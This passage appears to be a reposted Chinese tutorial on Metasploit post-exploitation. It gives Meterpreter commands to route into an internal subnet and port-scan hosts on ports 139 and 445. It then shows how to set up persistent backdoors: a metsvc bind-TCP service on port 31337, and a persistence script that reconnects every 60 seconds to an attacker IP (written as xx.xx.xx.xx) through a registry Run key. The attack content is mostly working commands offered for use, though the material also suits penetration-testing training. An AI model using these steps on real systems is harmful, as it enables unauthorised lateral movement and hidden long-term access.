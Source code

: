 要对目标内网进行扫描需要先添加一下路由

> run autoroute -s 192.168.50.2/24

![图片](https://shs3.b.qianxin.com/butian_public/faba98e38d6013d24cc02495543320894.jpg)

使用metasploit的portscan扫描一下内网存活的主机

- 
- 
- 

```php
use auxiliary/scanner/portscan/tcpset rhosts 192.168.50.2/24set ports 139, 445exploit
```

![图片](https://shs3.b.qianxin.com/butian_public/f41bf8663e6b41f197fe5376dc04a41d9.jpg)

有点慢呢，最后扫了一半还没发现其他主机就放弃了

权限维持
----

metasploi Metsvc模块  
这个使用很简单

> run metsvc

![图片](https://shs3.b.qianxin.com/butian_public/f1195dd291785e92ee7aab6eceb7071b6.jpg)

其实是给目标开了一个服务

![图片](https://shs3.b.qianxin.com/butian_public/fab8d025bcf87484047e54b3da18e8a63.jpg)

连接的话使用exploit/multi/handler模块，payload设置为windows/metsvc\_bind\_tcp，设置目标ip和绑定端口31337

metasploi Persistence模块

> run persistence -U -i 60 -p 5555 -r xx.xx.xx.xx

- 
- 
- 
- 

```php
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息-i：设置反向连接间隔时间，单位为秒；-p：设置反向连接的端口号；-r：设置反向连接的ip地址
```

![图片](https://shs3.b.qianxin.com/butian_public/f7378ed863c891f910194a29eca7011d9.jpg)

清除脚本在下图位置

![图片](https://shs3.b.qianxin.com/butian_public/fc8a2898a259a255fcfb7a1366034ad15.jpg)

若要清除后门，在meterpreter运行该脚本即可

![图片](https://shs3.b.qianxin.com/butian_public/fb0d24a34540d74fe81ffb56b48a0329d.jpg)

文章转载于lemonsec